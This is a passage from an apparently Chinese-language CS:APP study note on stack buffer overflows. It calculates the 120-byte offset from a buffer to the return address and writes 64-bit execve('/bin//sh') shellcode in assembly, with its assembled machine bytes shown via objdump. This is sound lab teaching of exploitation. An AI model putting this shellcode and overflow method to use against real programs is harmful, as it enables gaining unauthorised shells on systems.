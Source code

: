 从以上执行结果来看，数组 buffer 的起始地址为 **`0x7fffffffdd20`**，栈指针 %rbp 的地址为 **`0x7fffffffdd90`**，返回地址为 **`0x7fffffffdd90+8`**。从上面打印信息可以轻松地获知 buffer 的起始地址，然后计算出从 %rbp 到 buffer 起始处的距离。通过计算，得到的结果是 112，因此返回地址区域到 buffer 起始处的距离就是 120。

### 2.编写 shellcode

模仿 32 位汇编代码，编写 64 位 shellcode，如下所示，Linux 中 64 位系统调用方式和 32 位存在区别，用户模式的系统调用依次传递的寄存器为 **`rdi、rsi、rdx、rcx、r8、r9`**，内核接口的系统调用依次传递的寄存器为 **`rdi、rsi、rdx、r10、r8、r9`**，注意这里和用户模式的系统调用只有第 4 个寄存器不同，其他都相同。

并且系统调用通过 syscall 指令进入，不像 32 位下的汇编使用的是 int 0x80 指令，系统调用号放在 %rax 寄存器里，系统调用限制最多 6 个参数，没有参数直接通过栈传递。系统调用的返回结果，也就是 syscall 指令的返回放在 rax 寄存器中。

64 位的 shellcode 也是调用 execve 函数执行 **`/bin//sh`** 命令，首先将 $0x68732f2f6e69622f（**`/bin//sh`** 的 ASCII 码）压入栈中，并且将起始地址 %rsp 保存到 %rdi 中。接下来同样是构造动态数组，依次将 NULL、%rdi 压入栈中，然后将数组的起始地址保存到 %rsi 中。最后将 execve 函数的调用号 59 保存到寄存器 %rax 中，然后执行 syscall 指令，执行系统调用。

```armasm{.line-numbers}
xorq 	%rax,%rax
pushq 	%rax
movabsq $0x68732f2f6e69622f, %rbx
pushq   %rbx
movq	%rsp, %rdi
pushq	%rax
pushq	%rdi
movq	%rsp, %rsi
xorq 	%rdx, %rdx
movb	$59, %al
syscall
```

为了构造 shellcode，还需要将上述汇编代码转换成机器指令，我们使用 **`gcc -nostdlib -static test.s -o test`** 命令。其中，**<font color="red">-nostdlib 禁用标准库和启动文件</font>**，其具体作用为不链接标准 C 库（libc），比如 printf 和 malloc 函数将不可用；**<font color="red">不链接启动文件（crt.o）</font>**，如 _start 入口函数、全局变量初始化等代码需自行实现。

**<font color="red">-static 选项强制静态链接，所有库静态链接</font>**，将依赖的库（如 libc）直接打包进可执行文件，而非动态链接（.so 文件），并且生成独立可执行文件。

在使用上述命令将汇编代码转换成二进制机器指令后，然后使用 objdump -d 对二进制机器码进行反汇编。

```shell{.line-numbers}
monica@xvm:~/csapp/chapter3$ gcc -static -nostdlib test.s -o test
/usr/bin/ld: 警告: 无法找到项目符号 _start; 缺省为 0000000000401000
monica@xvm:~/csapp/chapter3$ objdump -d test

test1：     文件格式 elf64-x86-64

Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:	48 31 c0             	xor    %rax,%rax
  401003:	50                   	push   %rax
  401004:	48 bb 2f 62 69 6e 2f 	movabs $0x68732f2f6e69622f,%rbx
  40100b:	2f 73 68 
  40100e:	53                   	push   %rbx
  40100f:	48 89 e7             	mov    %rsp,%rdi
  401012:	50                   	push   %rax
  401013:	57                   	push   %rdi
  401014:	48 89 e6             	mov    %rsp,%rsi
  401017:	48 31 d2             	xor    %rdx,%rdx
  40101a:	b0 3b                	mov    $0x3b,%al
  40101c:	0f 05                	syscall 
```
